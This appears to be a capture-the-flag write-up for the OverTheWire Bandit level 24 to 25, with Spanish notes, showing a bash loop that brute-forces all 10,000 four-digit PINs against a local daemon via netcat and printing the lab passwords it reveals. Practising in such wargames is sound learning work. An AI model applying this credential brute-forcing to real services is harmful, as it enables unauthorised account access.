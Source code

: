 
## Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

## data access
bandit24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar


## Solution

```

bandit24@bandit:~$ cd /tmp/
bandit24@bandit:/tmp$ ls
ls: cannot open directory '.': Permission denied
bandit24@bandit:/tmp$ cd /tmp/carpeta
bandit24@bandit:/tmp/carpeta$ ls
fuerzaBruta.sh  fuerzaburta.sh  listaCodigos.txt  listaConCodigos.txt  resultados.txt
bandit24@bandit:/tmp/carpeta$ wc -l resultados.txt
6302 resultados.txt
bandit24@bandit:/tmp/carpeta$ cat fuerzaBruta.sh
#!/bin/bash

for i in {0000..9999}
do
        echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" >> listaConCodigos.txt
done

cat listaConCodigos.txt | nc localhost 30002 > resultados.txt
bandit24@bandit:/tmp/carpeta$ ./fuerzaBruta.sh
^C
bandit24@bandit:/tmp/carpeta$ ls
fuerzaBruta.sh  listaConCodigos.txt  resultados.txt
bandit24@bandit:/tmp/carpeta$ wc -l listaConCodigos.txt
10000 listaConCodigos.txt

bandit24@bandit:/tmp/carpeta$ split -l 5000 listaConCodigos.txt >> mitad.txt
bandit24@bandit:/tmp/carpeta$ ls
fuerzaBruta.sh  listaConCodigos.txt  mitad.txt  resultados.txt  xaa  xab
bandit24@bandit:/tmp/carpeta$ wc -l mitad.txt
0 mitad.txt
bandit24@bandit:/tmp/carpeta$ wc -l xaa
5000 xaa


bandit24@bandit:/tmp/carpeta$ ls
fuerzaBruta.sh  listaConCodigos.txt  mitad.txt  resultados.txt  xaa  xab
bandit24@bandit:/tmp/carpeta$ cat xaa | nc localhost 30002 > primeraMitad.txt
bandit24@bandit:/tmp/carpeta$ sort primeraMitad.txt | grep -v "Wrong!"
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Timeout. Exiting.
bandit24@bandit:/tmp/carpeta$ cat xab | nc localhost 30002 > segundaMitad.txt
bandit24@bandit:/tmp/carpeta$ sort segundaMitad.txt | grep -v "Wrong!"

Correct!
Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
bandit24@bandit:/tmp/carpeta$

```

## notes

primero se intento con el script inicial  pero se quedaba quieto y ya no dejaba de hacer nada mas que cuando le hacia ctrl c,pero se creaban documentos excepto por el de resultados que tenia menos lineas por lo que mejor decidi dividir las lineas con los codigos en 2 y ver si era el problema de mucho procesamiento y asi fue.

## references


